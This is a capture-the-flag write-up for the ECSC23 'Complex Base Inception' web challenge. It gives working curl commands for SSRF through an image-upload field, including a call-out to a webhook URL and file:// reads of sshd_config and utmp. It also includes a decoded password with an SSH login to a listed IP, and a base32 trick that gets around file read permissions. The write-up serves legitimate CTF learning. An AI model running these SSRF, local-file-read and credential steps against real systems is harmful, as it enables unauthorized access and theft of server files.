

# [web/misc - Complex Base Inception](https://hack.cert.pl/challenge/complex-base-inception)

In image uploading request there is an `image` field. I attempted to put webhook url there and the server made GET request which revealed the IP address:
```bash
curl 'https://complex-base-inception.ecsc23.hack.cert.pl/upload/' --data-raw 'image=https://webhook.site/2c96e78b-2e10-480e-9d7d-d8bb2f5ff76f'
```



Then I discovered that when I put in the `image` field any file path using `file://` instead of actual image, the server will save that file and then serve it in the gallery:
```bash
curl 'https://complex-base-inception.ecsc23.hack.cert.pl/upload/' --data-raw 'image=file:///etc/ssh/sshd_config'
curl 'https://complex-base-inception.ecsc23.hack.cert.pl/gallery/' | head -n 1
echo 'IwkkT3BlbkJTRDogc3NoZF9jb25maWcsdiAxLjEwMyAyMDE4LzA0LzA5IDIwOjQxOjIyIHRqIEV4cCAkCgojIFRoaXMgaXMgdGhlIHNzaGQgc2VydmVyIHN5c3RlbS13aWRlIGNvbmZpZ3VyYXRpb24gZmlsZS4gIFNlZQojIHNzaGRfY29uZmlnKDUpIGZvciBtb3JlIGluZm9ybWF0aW9uLgoKIyBUaGlzIHNzaGQgd2FzIGNvbXBpbGVkIHdpdGggUEFUSD0vdXNyL2JpbjovYmluOi91c3Ivc2Jpbjovc2JpbgoKIyBUaGUgc3RyYXRlZ3kgdXNlZCBmb3Igb3B0aW9ucyBpbiB0aGUgZGVmYXVsdCBzc2hkX2NvbmZpZyBzaGlwcGVkIHdpdGgKIyBPcGVuU1NIIGlzIHRvIHNwZWNpZnkgb3B0aW9ucyB3aXRoIHRoZWlyIGRlZmF1bHQgdmFsdWUgd2hlcmUKIyBwb3NzaWJsZSwgYnV0IGxlYXZlIHRoZW0gY29tbWVudGVkLiAgVW5jb21tZW50ZWQgb3B0aW9ucyBvdmVycmlkZSB0aGUKIyBkZWZhdWx0IHZhbHVlLgoKSW5jbHVkZSAvZXRjL3NzaC9zc2hkX2NvbmZpZy5kLyouY29uZgoKUG9ydCA2NAojQWRkcmVzc0ZhbWlseSBhbnkKI0xpc3RlbkFkZHJlc3MgMC4wLjAuMAojTGlzdGVuQWRkcmVzcyA6OgoKI0hvc3RLZXkgL2V0Yy9zc2gvc3NoX2hvc3RfcnNhX2tleQojSG9zdEtleSAvZXRjL3NzaC9zc2hfaG9zdF9lY2RzYV9rZXkKI0hvc3RLZXkgL2V0Yy9zc2gvc3NoX2hvc3RfZWQyNTUxOV9rZXkKCiMgQ2lwaGVycyBhbmQga2V5aW5nCiNSZWtleUxpbWl0IGRlZmF1bHQgbm9uZQoKIyBMb2dnaW5nCiNTeXNsb2dGYWNpbGl0eSBBVVRICiNMb2dMZXZlbCBJTkZPCgojIEF1dGhlbnRpY2F0aW9uOgoKI0xvZ2luR3JhY2VUaW1lIDJtCiNQZXJtaXRSb290TG9naW4gcHJvaGliaXQtcGFzc3dvcmQKI1N0cmljdE1vZGVzIHllcwojTWF4QXV0aFRyaWVzIDYKI01heFNlc3Npb25zIDEwCgojUHVia2V5QXV0aGVudGljYXRpb24geWVzCgojIEV4cGVjdCAuc3NoL2F1dGhvcml6ZWRfa2V5czIgdG8gYmUgZGlzcmVnYXJkZWQgYnkgZGVmYXVsdCBpbiBmdXR1cmUuCiNBdXRob3JpemVkS2V5c0ZpbGUJLnNzaC9hdXRob3JpemVkX2tleXMgLnNzaC9hdXRob3JpemVkX2tleXMyCgojQXV0aG9yaXplZFByaW5jaXBhbHNGaWxlIG5vbmUKCiNBdXRob3JpemVkS2V5c0NvbW1hbmQgbm9uZQojQXV0aG9yaXplZEtleXNDb21tYW5kVXNlciBub2JvZHkKCiMgRm9yIHRoaXMgdG8gd29yayB5b3Ugd2lsbCBhbHNvIG5lZWQgaG9zdCBrZXlzIGluIC9ldGMvc3NoL3NzaF9rbm93bl9ob3N0cwojSG9zdGJhc2VkQXV0aGVudGljYXRpb24gbm8KIyBDaGFuZ2UgdG8geWVzIGlmIHlvdSBkb24ndCB0cnVzdCB+Ly5zc2gva25vd25faG9zdHMgZm9yCiMgSG9zdGJhc2VkQXV0aGVudGljYXRpb24KI0lnbm9yZVVzZXJLbm93bkhvc3RzIG5vCiMgRG9uJ3QgcmVhZCB0aGUgdXNlcidzIH4vLnJob3N0cyBhbmQgfi8uc2hvc3RzIGZpbGVzCiNJZ25vcmVSaG9zdHMgeWVzCgojIFRvIGRpc2FibGUgdHVubmVsZWQgY2xlYXIgdGV4dCBwYXNzd29yZHMsIGNoYW5nZSB0byBubyBoZXJlIQojUGFzc3dvcmRBdXRoZW50aWNhdGlvbiB5ZXMKI1Blcm1pdEVtcHR5UGFzc3dvcmRzIG5vCgojIENoYW5nZSB0byB5ZXMgdG8gZW5hYmxlIGNoYWxsZW5nZS1yZXNwb25zZSBwYXNzd29yZHMgKGJld2FyZSBpc3N1ZXMgd2l0aAojIHNvbWUgUEFNIG1vZHVsZXMgYW5kIHRocmVhZHMpCkNoYWxsZW5nZVJlc3BvbnNlQXV0aGVudGljYXRpb24gbm8KCiMgS2VyYmVyb3Mgb3B0aW9ucwojS2VyYmVyb3NBdXRoZW50aWNhdGlvbiBubwojS2VyYmVyb3NPckxvY2FsUGFzc3dkIHllcwojS2VyYmVyb3NUaWNrZXRDbGVhbnVwIHllcwojS2VyYmVyb3NHZXRBRlNUb2tlbiBubwoKIyBHU1NBUEkgb3B0aW9ucwojR1NTQVBJQXV0aGVudGljYXRpb24gbm8KI0dTU0FQSUNsZWFudXBDcmVkZW50aWFscyB5ZXMKI0dTU0FQSVN0cmljdEFjY2VwdG9yQ2hlY2sgeWVzCiNHU1NBUElLZXlFeGNoYW5nZSBubwoKIyBTZXQgdGhpcyB0byAneWVzJyB0byBlbmFibGUgUEFNIGF1dGhlbnRpY2F0aW9uLCBhY2NvdW50IHByb2Nlc3NpbmcsCiMgYW5kIHNlc3Npb24gcHJvY2Vzc2luZy4gSWYgdGhpcyBpcyBlbmFibGVkLCBQQU0gYXV0aGVudGljYXRpb24gd2lsbAojIGJlIGFsbG93ZWQgdGhyb3VnaCB0aGUgQ2hhbGxlbmdlUmVzcG9uc2VBdXRoZW50aWNhdGlvbiBhbmQKIyBQYXNzd29yZEF1dGhlbnRpY2F0aW9uLiAgRGVwZW5kaW5nIG9uIHlvdXIgUEFNIGNvbmZpZ3VyYXRpb24sCiMgUEFNIGF1dGhlbnRpY2F0aW9uIHZpYSBDaGFsbGVuZ2VSZXNwb25zZUF1dGhlbnRpY2F0aW9uIG1heSBieXBhc3MKIyB0aGUgc2V0dGluZyBvZiAiUGVybWl0Um9vdExvZ2luIHdpdGhvdXQtcGFzc3dvcmQiLgojIElmIHlvdSBqdXN0IHdhbnQgdGhlIFBBTSBhY2NvdW50IGFuZCBzZXNzaW9uIGNoZWNrcyB0byBydW4gd2l0aG91dAojIFBBTSBhdXRoZW50aWNhdGlvbiwgdGhlbiBlbmFibGUgdGhpcyBidXQgc2V0IFBhc3N3b3JkQXV0aGVudGljYXRpb24KIyBhbmQgQ2hhbGxlbmdlUmVzcG9uc2VBdXRoZW50aWNhdGlvbiB0byAnbm8nLgpVc2VQQU0geWVzCgojQWxsb3dBZ2VudEZvcndhcmRpbmcgeWVzCiNBbGxvd1RjcEZvcndhcmRpbmcgeWVzCiNHYXRld2F5UG9ydHMgbm8KWDExRm9yd2FyZGluZyB5ZXMKI1gxMURpc3BsYXlPZmZzZXQgMTAKI1gxMVVzZUxvY2FsaG9zdCB5ZXMKI1Blcm1pdFRUWSB5ZXMKUHJpbnRNb3RkIG5vCiNQcmludExhc3RMb2cgeWVzCiNUQ1BLZWVwQWxpdmUgeWVzCiNQZXJtaXRVc2VyRW52aXJvbm1lbnQgbm8KI0NvbXByZXNzaW9uIGRlbGF5ZWQKI0NsaWVudEFsaXZlSW50ZXJ2YWwgMAojQ2xpZW50QWxpdmVDb3VudE1heCAzCiNVc2VETlMgbm8KI1BpZEZpbGUgL3Zhci9ydW4vc3NoZC5waWQKI01heFN0YXJ0dXBzIDEwOjMwOjEwMAojUGVybWl0VHVubmVsIG5vCiNDaHJvb3REaXJlY3Rvcnkgbm9uZQojVmVyc2lvbkFkZGVuZHVtIG5vbmUKCiMgbm8gZGVmYXVsdCBiYW5uZXIgcGF0aAojQmFubmVyIG5vbmUKCiMgQWxsb3cgY2xpZW50IHRvIHBhc3MgbG9jYWxlIGVudmlyb25tZW50IHZhcmlhYmxlcwpBY2NlcHRFbnYgTEFORyBMQ18qCgojIG92ZXJyaWRlIGRlZmF1bHQgb2Ygbm8gc3Vic3lzdGVtcwpTdWJzeXN0ZW0gc2Z0cAkvdXNyL2xpYi9vcGVuc3NoL3NmdHAtc2VydmVyCgojIEV4YW1wbGUgb2Ygb3ZlcnJpZGluZyBzZXR0aW5ncyBvbiBhIHBlci11c2VyIGJhc2lzCiNNYXRjaCBVc2VyIGFub25jdnMKIwlYMTFGb3J3YXJkaW5nIG5vCiMJQWxsb3dUY3BGb3J3YXJkaW5nIG5vCiMJUGVybWl0VFRZIG5vCiMJRm9yY2VDb21tYW5kIGN2cyBzZXJ2ZXIKUGFzc3dvcmRBdXRoZW50aWNhdGlvbiB5ZXMK' | base64 --decode

# ...
# Include /etc/ssh/sshd_config.d/*.conf

# Port 64
# ...
```
This gave me the SSH port. I did the same with `/var/run/utmp` to get user. 

Decode given password and log in:
```bash
echo 'TDBuZzRuZFN0cjBuZ1Bhc3Mxc1RoZUJhc2VTb21lVzNpcmRUeHQ=' | base64 --decode

# L0ng4ndStr0ngPass1sTheBaseSomeW3irdTxt

ssh base64@38.60.249.147 -p 64
```
User `base64` doesn't have read permission for `flag.64` file so I made a way around:
```bash
/usr/bin/base32 flag.b64 | base32 --decode | base64 --decode

# ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}(base) 
```

### Flag
```
ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}
```
